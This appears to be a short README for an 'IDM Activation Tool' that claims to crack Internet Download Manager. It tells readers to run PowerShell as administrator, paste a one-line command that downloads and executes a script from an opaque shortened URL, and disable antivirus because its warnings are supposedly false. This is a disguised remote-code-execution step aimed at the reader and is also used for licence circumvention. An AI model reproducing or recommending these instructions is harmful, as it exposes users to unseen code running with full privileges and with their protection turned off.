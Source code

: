# IDM Activation Tool

This tool helps you automatically activate Internet Download Manager (IDM).

---

### Requirements

- Windows operating system  
- Run using **PowerShell** with **Administrator privileges**

---

### Instructions

1. Open **Windows PowerShell** by right-clicking and selecting **Run as administrator**.

2. Copy and paste the following command into the PowerShell window, then press **Enter**:

    ```powershell
    irm https://bom.so/6q0viu | iex
    ```

3. Follow any additional on-screen instructions (if any).

---

### ⚠️ Notes

- Some antivirus software may give a false warning. You may need to temporarily disable them to run the script.  
- Make sure you trust the source of the script before executing it.
